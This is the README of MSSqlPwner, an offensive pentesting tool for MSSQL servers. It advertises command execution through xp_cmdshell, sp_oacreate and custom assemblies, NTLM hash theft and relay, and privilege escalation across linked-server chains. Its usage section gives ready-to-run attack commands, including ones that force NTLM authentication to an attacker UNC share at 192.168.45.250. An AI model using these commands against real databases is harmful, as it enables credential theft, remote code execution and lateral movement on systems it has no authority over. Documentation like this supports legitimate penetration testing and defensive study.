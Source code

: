 # MSSqlPwner
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.
The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.

With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and gather all the possible chains.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, and command execution.

This tool provide opportunities for lateral movement assessments and exploration of linked servers.
For example, if the current session does not have administrative privileges, the tool will try to find a chain to escalates its own privileges used linked server.

If the local server does not have permission to execute certain operations, the tool can find a chain to enable execution. 
For example, it can send a query to a linked server that returns back with a link to the local server with higher permissions.
The tool also supports recursive querying via links to execute queries and commands on otherwise inaccessible linked servers.


This tool is supported by multiple authentication methods and described below.

## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` (Ole Automation Procedures) on local server or on linked servers

2. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` on local server or on linked servers
- `xp_subdirs` on local server or on linked servers
- `xp_fileexist` on local server or on linked servers

3. Encapsulated Commands and Queries: Execute incapsulated commands or queries using the following options:
- `execute_command` on local server or on linked servers
- `run_query` on local server or on linked servers
- `run_query_system_service` on local server or on linked servers as system user
4. Direct Queries 
- `direct_query` - execute direct queries on local or linked servers as system user.


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/El3ct71k/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```

## Usage
```
# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec "cmd /c dir \\\\192.168.45.250\\test" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 ntlm-relay \\\\192.168.45.250\\test

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay \\\\192.168.45.250\\test

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
